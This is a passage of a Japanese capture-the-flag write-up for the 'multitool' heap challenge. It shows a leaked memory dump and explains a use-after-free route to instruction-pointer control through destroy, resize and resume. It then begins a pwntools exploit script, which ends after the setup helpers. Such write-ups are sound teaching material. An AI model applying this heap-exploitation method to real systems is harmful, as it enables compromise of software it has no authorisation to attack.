 フィボナッチのAlgo構造体あたりが丸々リークします。最初のcoinchangeの配列をもっと大きくするとlibcもリークすると思いますが、今回は必要ないので省略します。

```
    b'Resume task #: '
[DEBUG] Sent 0x2 bytes:
    b'6\n'
[DEBUG] Received 0xe5 bytes:
    00000000  52 65 73 75  6c 74 3a 20  78 32 3c ac  b3 55 00 00  │Resu│lt: │x2<·│·U··│
    00000010  28 10 15 ad  b3 55 00 00  0b 00 00 00  00 00 00 00  │(···│·U··│····│····│
    00000020  42 75 62 62  6c 65 20 53  6f 72 74 00  00 00 00 00  │Bubb│le S│ort·│····│
    00000030  48 10 15 ad  b3 55 00 00  0e 00 00 00  00 00 00 00  │H···│·U··│····│····│
    00000040  53 6c 6f 77  20 41 6c 67  6f 72 69 74  68 6d 00 00  │Slow│ Alg│orit│hm··│
    00000050  68 10 15 ad  b3 55 00 00  02 00 00 00  00 00 00 00  │h···│·U··│····│····│
    00000060  31 20 00 00  00 00 00 00  11 11 00 00  00 00 00 00  │1 ··│····│····│····│
    00000070  50 16 15 ad  b3 55 00 00  01 00 00 00  00 00 00 00  │P···│·U··│····│····│
    00000080  81 00 00 00  00 00 00 00  58 31 3c ac  b3 55 00 00  │····│····│X1<·│·U··│
    00000090  a8 10 15 ad  b3 55 00 00  09 00 00 00  00 00 00 00  │····│·U··│····│····│
    000000a0  46 69 62 6f  6e 61 63 63  69 00 00 00  00 00 00 00  │Fibo│nacc│i···│····│
    000000b0  c8 10 15 ad  b3 55 00 00  0e 00 00 00  0a 44 6f 6e  │····│·U··│····│·Don│
    000000c0  65 21 0a 31  2e 20 43 72  65 61 74 65  20 6e 65 77  │e!·1│. Cr│eate│ new│
    000000d0  20 74 61 73  6b 0a 32 2e  20 52 65 73  75 6d 65 20  │ tas│k·2.│ Res│ume │
    000000e0  74 61 73 6b  0a                                     │task│·│
    000000e5
```
## IPコントロール
次に`run_algo_async`を使ったIP奪取です。今度は先ほどと異なりオフセット+0のポインタが使われるため、有効なtasksを指されると面倒です。そこで先に`destroy`を呼び、その後にresizeを起こしてtasksを移動させ、元のtasksポインタ跡地を書き換えたあとで`resume`することで、古いtasksがあったところを指した状態で動作させます。resizeの後には`fast_algo_factory`を使ってペイロードを設置します。

最初のresizeで0x90のサイズがfreeされますが少し使いにくかったので、その次の0x110のサイズを狙いました。

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './multitool'
HOST = 'chals.sekai.team'
PORT = 4020

elf = ELF(TARGET)
def start():
	if not args.R:
		print("local")
		return process(TARGET)
		# return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
		# return process(TARGET, stdout=process.PTY, stdin=process.PTY)
	else:
		print("remote")
		return remote(HOST, PORT)

def get_base_address(proc):
	lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
	for line in lines :
		if TARGET[2:] in line.split('/')[-1] :
			break
	return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
	script = "handle SIGALRM ignore\n"
	PIE = get_base_address(proc)
	script += "set $base = 0x{:x}\n".format(PIE)
	script += "set print asm-demangle on\n"
```